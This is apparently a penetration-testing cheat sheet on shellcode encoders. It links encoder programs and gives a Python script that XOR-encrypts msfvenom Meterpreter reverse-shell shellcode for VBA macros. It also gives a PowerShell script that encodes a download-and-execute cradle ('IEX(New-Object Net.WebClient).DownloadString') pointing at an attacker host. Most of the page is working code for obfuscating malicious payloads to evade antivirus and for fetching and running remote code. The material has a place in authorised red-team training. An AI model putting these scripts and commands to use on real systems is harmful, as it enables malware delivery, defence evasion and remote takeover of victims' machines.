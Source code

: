 


## Shellcode Encoders/Encryptors

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/ROT%20Shellcode%20Encoder/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/ROT%20Shellcode%20Encoder/Program.cs)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Encoder/shellcodeCrypter.py](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Encoder/shellcodeCrypter.py)

Shellcode XOR-encrypt helper for VBA:

{% code title="XOREncrypt.py" %}
```python
import ast
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f vbapplication
buf = """buf = Array(31,33,...,33,37)"""
buf = buf[11:]
buf = buf.replace(' _\n', '')
buf = ast.literal_eval(buf)
enc = [b ^ ord('a') for b in buf]
enc = str(enc).replace('[', '').replace(']', '')

parts, chunk = [], ''
for c in enc:
    chunk += c
    if len(chunk) > 200 and c == ',':
        parts.append(chunk.strip())
        chunk = ''
parts.append(chunk)

enc = ' _\r\n'.join(parts)
enc = f'buf = Array({enc})'
print(enc)
```
{% endcode %}

PowerShell XOR-encrypt helper for VBA with WMI de-chain:

{% code title="PS-XOREncrypt-HEX.ps1" %}
```powershell
$payload = "powershell -exec bypass -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')"
[string]$output = ""
$payload.ToCharArray() | % {
    [string]$thischar = [byte][char]$_ -bxor [byte]'a'
    if($thischar.Length -eq 1) {
    $thischar = [string]"00" + $thischar
    $output += $thischar
    }
    elseif($thischar.Length -eq 2) {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3) {
        $output += $thischar
    }
}
$output | clip
```
{% endcode %}
